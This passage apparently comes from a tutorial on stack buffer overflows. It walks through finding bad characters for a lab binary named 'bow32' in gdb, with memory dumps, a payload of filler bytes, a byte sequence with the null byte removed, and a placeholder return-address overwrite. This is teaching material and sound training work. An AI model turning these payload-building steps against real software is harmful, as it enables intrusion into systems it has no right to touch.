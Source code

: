 The Stack - CHARS

```shell-session
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

We see where our "`\x55`" ends, and the `CHARS` variable begins. But if we look closely at it, we will see that it starts with "`\x01`" instead of "`\x00`". We have already seen the warning during the execution that the `null byte` in our input was ignored.

So we can note this character, remove it from our variable `CHARS` and adjust the number of our "`\x55`".

##### Notes

Notes

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

##### Send CHARS - Without Null Byte

Send CHARS - Without Null Byte

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

#### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
